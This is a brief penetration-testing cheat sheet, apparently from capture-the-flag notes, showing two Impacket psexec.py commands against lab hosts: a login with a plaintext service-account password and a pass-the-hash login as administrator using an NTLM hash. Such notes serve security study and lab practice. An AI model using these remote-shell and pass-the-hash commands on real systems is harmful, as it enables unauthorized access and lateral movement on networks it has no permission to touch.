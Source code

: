 __tags: windows windows psexec

#### Basic login

```
python psexec.py 'active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100'
```

#### Login if you have a Hash:

```
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.82 administrator@10.10.10.82
```

